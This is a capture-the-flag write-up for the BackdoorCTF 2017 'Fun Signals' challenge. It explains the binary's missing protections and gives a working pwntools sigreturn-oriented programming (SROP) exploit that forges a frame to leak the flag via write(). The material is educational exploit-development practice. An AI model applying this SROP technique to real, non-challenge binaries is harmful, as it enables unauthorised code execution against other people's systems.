

# BackdoorCTF 2017 Fun Signals

## Challenge File

[player_bin](./funsignals_player_bin)

## file + checksec

file:

```
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

Note that the binary is **statically linked**.

checksec:

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x10000000)
RWX:      Has RWX segments
```

There is no protection.

## Program Analysis



The binary is minimalist (no function name). Starting from the `__start` label, we find two `syscall` instructions which look suspicious. The first `syscall` invokes `read(0, $rsp, 0x400)` and the second `syscall` invokes `sigreturn()`. This is an obvious hint for SROP.

## Solution

There is a syscall instruction available at 0x10000015. The flag is inside the binary, so we can just forge a sigreturn frame that calls `write(1, &flag, 50)`. This process can be automated using the `SigreturnFrame()` module in Pwntools:

```python
frame = SigreturnFrame()
frame.rax = 1 # syscall number for write()
frame.rdi = 1 # stdout = 1
frame.rsi = 0x10000023 # the address of flag
frame.rdx = 50 # leak 50 bytes of data
frame.rip = 0x10000015 # the address of syscall
```

## Exploit

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./funsignals_player_bin")
context.arch = 'amd64'

def srop(rax, rdi, rsi, rdx, rip):
    frame = SigreturnFrame()
    frame.rax = rax # syscall number for write()
    frame.rdi = rdi # stdout=1
    frame.rsi = rsi # the address of flag
    frame.rdx = rdx # leak how many bytes of data
    frame.rip = rip # the address of syscall

    return frame

def exploit():
    # socat tcp4-listen:1337,reuseaddr,fork exec:./funsignals_player_bin
    r = remote('127.0.0.1', 1337)
    frame = srop(
    rax=constants.SYS_write,
    rdi=constants.STDOUT_FILENO,
    rsi=elf.sym['flag'],
    rdx=50,
    rip=elf.sym['syscall'],
)
    r.send(bytes(frame))
    print(r.readall())

if __name__ == "__main__":
    exploit()
```